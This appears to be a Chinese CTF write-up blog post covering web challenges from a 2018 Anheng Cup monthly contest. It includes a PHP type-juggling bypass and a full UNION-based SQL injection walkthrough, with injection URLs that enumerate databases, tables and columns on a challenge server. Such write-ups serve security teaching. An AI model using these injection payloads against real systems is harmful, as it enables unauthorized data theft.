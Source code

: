 ```yaml
---
layout: post
title: 安恒杯五月月赛Writeup
date: 2018-6-1
author: Qiqi
header-img: img/post-bg-unix-linux.jpg
catalog: true
tag:
   - Writeup
   - CTF
---
```


# 安恒杯五月月赛 Web Writeup

## 奇怪的恐龙特性

题目

```
大约在15亿年前，生活在地球上的恐龙中有一种很奇怪的恐龙，他们有一种奇怪的特性，那就是当在捕杀猎物的时候，如果猎物发出惊讶的表情的时候，他们也会发出惊讶的表情来告诉猎物“你们快要死了”，然而这种特性并没什么用处。。。因为我编不下去了。。以上这个故事是我瞎编的。。。
```

题目给了代码

```php
<?php 
highlight_file(__FILE__); 
ini_set("display_error", false);  
error_reporting(0);  
$str = isset($_GET['A_A'])?$_GET['A_A']:'A_A'; 
if (strpos($_SERVER['QUERY_STRING'], "A_A") !==false) { 
    echo 'A_A,have fun'; 
} 
elseif ($str<9999999999) { 
    echo 'A_A,too small'; 
} 
elseif ((string)$str>0) { 
    echo 'A_A,too big'; 
} 
else{ 
    echo file_get_contents('flag.php'); 
     
} 
?>
```

首先第一个if判断，可以用`urlencode`绕过

然后我们需要知道php中的这样一个特性

```
php > var_dump([]>9999999999);
bool(true)
php > var_dump((string)[]>0);
bool(false)
```

在php中，数组`[]`大于任何一个数

这样就可以成功绕过验证了

这里有个坑，flag被注释了，需要查看源代码才能看得到flag

`flag={09bc24026c987ae44a6e424479b2e3}`

## 不能注册的admin

题目

```
你敢注册一个“admin”账户吗？敢吗？你试试？
```

查看源代码，在ajax请求中看到`json.php`，需要传入`id`参数

`id=admin`返回`{'id':'1','title':'admin'}`

尝试sql注入，但发现被检测到了，我们可以使用大小写绕过`json.phP`即可

使用`"`成功闭合，`—+`注释

使用`order by`语句，发现一共有三个列

然后及时常规的联合查询注入

**查询库名**

```
http://101.71.29.5:10006/json.phP?id=" union select 1,group_concat(schema_name),3 from information_schema.schemata--+
```

得到`{'id':'1','title':'information_schema,5monthweb,mysql,performance_schema,test,web'}`

那么显然是在`5monthweb`库中，其实也就是当前库

**查询表名**

```
http://101.71.29.5:10006/json.phP?id=" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

得到`{'id':'1','title':'article'}`

只有`article`一个表

**查询列名**

```
http://101.71.29.5:10006/json.phP?id=" union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='article'--+
```

返回`{'id':'1','title':'id,title,content'}`

**查询数据**

猜测flag应该是在`content`列中

```
http://101.71.29.5:10006/json.phP?id=" union select 1,group_concat(content),3 from article--+
```

得到`{'id':'1','title':'flag{you_are_admin}'}`

## 一个hackerone的有趣的漏洞的复现的题目

题目

```
ctf打多了，现在咱们把hackerone的漏洞复现一下吧。小曾师傅花了好几天写了一套模拟hackerone上的漏洞的程序，恩阿。很有趣哦~这可是企业实实在在遇到的问题哦！不是脑洞大开题 请各位亲们谨慎思考
```

这题是个时间竞争，因为题目出现了问题，无法复现了

大概是有个`.git`源码泄露，可以读到所有源码

